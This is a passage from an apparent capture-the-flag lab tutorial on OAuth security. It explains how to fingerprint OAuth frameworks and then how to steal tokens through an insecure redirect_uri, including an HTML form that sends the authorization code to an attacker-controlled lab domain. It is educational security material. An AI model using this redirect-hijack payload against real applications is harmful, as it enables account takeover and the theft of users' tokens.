 https://dev.coffee.thm/authorize?response_type=code&client_id=AppClientID&redirect_uri=https://dev.coffee.thm/callback&scope=profile&state=xyzSecure123

Identifying the OAuth Framework

Once you have confirmed that OAuth is being used, the next step is to identify the specific framework or library the application employs. This can provide insights into potential vulnerabilities and the appropriate security assessments. Here are some strategies to identify the OAuth framework:

    HTTP Headers and Responses: Inspect HTTP headers and response bodies for unique identifiers or comments referencing specific OAuth libraries or frameworks.
    Source Code Analysis: If you can access the application's source code, search for specific keywords and import statements that can reveal the framework in use. For instance, libraries like django-oauth-toolkit, oauthlib, spring-security-oauth, or passport in Node.js, each have unique characteristics and naming conventions.
    Authorization and Token Endpoints: Analyze the endpoints used to obtain authorization codes and access tokens. Different OAuth implementations might have unique endpoint patterns or structures. For example, the Django OAuth Toolkit typically follows the pattern /oauth/authorize/ and /oauth/token/, while other frameworks might use different paths.
    Error Messages: Custom error messages and debug output can inadvertently reveal the underlying technology stack. Detailed error messages might include references to specific OAuth libraries or frameworks.

#### Stealing OAuth token

An insecure redirect_uri can lead to severe security issues. If attackers gain control over any domain or URI listed in the redirect_uri, they can manipulate the flow to intercept tokens. Here’s how this can be exploited:

    Consider an OAuth application with the following registered redirect URIs as shown below:

coffeeshopapp application panel showing redirect_uri

    Attacker's Strategy: If an attacker gains control over dev.bistro.thm, they can exploit the OAuth flow. By setting the redirect_uri to http://dev.bistro.thm/callback, the authorization server will send the token to this controlled domain.
    Crafted Attack: The attacker initiates an OAuth flow and ensures the redirect_uri points to their controlled domain. After the user authorizes the application, the token is sent to http://dev.bistro.thm/callback. The attacker can now capture this token and use it to access protected resources.

Preparing the Payload (Attacker Perspective)

Before starting the exercise, please ensure you are logged out of the OAuth provider as a victim by visiting the link http://coffee.thm:8000/admin/logout.

For this exercise, we assume that the attacker has compromised the domain dev.bistro.thm:8002 and can host any HTML page on the server. Consider Tom, a victim to whom we will send a link. The attacker can craft a simple HTML page (redirect_uri.html) with the following code:

           
     <form action="http://coffee.thm:8000/oauthdemo/oauth_login/" method="get">
            <input type="hidden" name="redirect_uri" value="http://dev.bistro.thm:8002/malicious_redirect.html">
            <input type="submit" value="Hijack OAuth">
        </form>

This form sends a hidden redirect_uri parameter with the value http://dev.bistro.thm:8002/malicious_redirect.html and submits a request to http://coffee.thm:8000/oauthdemo/oauth_login/.  The malicious_redirect.html page then intercepts the authorization code from the URL using the following code:
